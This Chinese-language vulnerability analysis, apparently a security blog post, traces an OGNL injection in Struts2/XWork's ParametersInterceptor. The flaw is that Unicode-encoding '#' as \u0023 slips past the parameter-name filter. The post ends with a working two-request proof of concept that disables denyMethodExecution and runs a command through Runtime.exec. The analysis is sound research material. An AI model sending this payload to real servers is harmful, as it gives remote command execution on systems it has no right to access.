 这个漏洞，说白了就是一个编码绕过，前面说过Ognl支持UNICODE编码，于是就可以使用UNICODE编码绕过。

首先看到入口 `com.opensymphony.xwork2.interceptor.ParametersInterceptor#intercept()` ，往OgnlValueStack中设置值之前，会先设置禁止调用方法：

![image-20210813111704930](/media/image-20210813111704930.png)

继续跟进 `this.setParameter()` ，发现会对请求参数名进行验证：

![image-20210813111941612](/media/image-20210813111941612.png)

看到参数名的检查逻辑：

```java
protected boolean acceptableName(String name) {
    if (name.indexOf('=') != -1 || name.indexOf(',') != -1 || name.indexOf('#') != -1
            || name.indexOf(':') != -1 || isExcluded(name)) {
        return false;
    } else {
        return true;
    }
}
```

需要关注参数名不能包含字符： `#` 。而我们知道如果我们要使用Ognl访问当前OgnlContext中的变量，需要使用 `#` 字符。如果我们可以绕过这个检查，就可以访问当前OgnlContext中的 `xwork.MethodAccessor.denyMethodExecution` 键值对，我们可以将其默认的true修改为false，这样我们就可以执行Ognl表达式了。这个地方的绕过很容易，Ognl支持UNICODE编码，我们直接将 `#` 字符进行UNICODE编码，即可访问当前OgnlContext中的变量了，然后将 `xwork.MethodAccessor.denyMethodExecution` 修改为false，使得能够使用Ognl表达式执行函数。

这里我传入的参数名为： `('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)` 。使用了UNICODE编码绕过了这个函数的检查。

继续往下跟，通过 `acceptableName(String)` 函数的检查后，将在此处往当前请求的OgnlValueStack中设置值：

![image-20210813113955138](/media/image-20210813113955138.png)

这里因为 `xwork.MethodAccessor.denyMethodExecution` 为true，所以执行Ognl会提示不能执行 `exec()` 函数：

![image-20210813114146453](/media/image-20210813114146453.png)

所以要想攻击成功，需要两个步骤（UNICODE编码绕过的前提下）：

1. 使用Ognl表达式将 `xwork.MethodAccessor.denyMethodExecution` 设置为false；
2. 使用Ognl表达式调用命令执行的函数来执行命令；

对应的POC如下：

```java
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)
```

再次POC发包测试：

![image-20210813115411652](/media/image-20210813115411652.png)
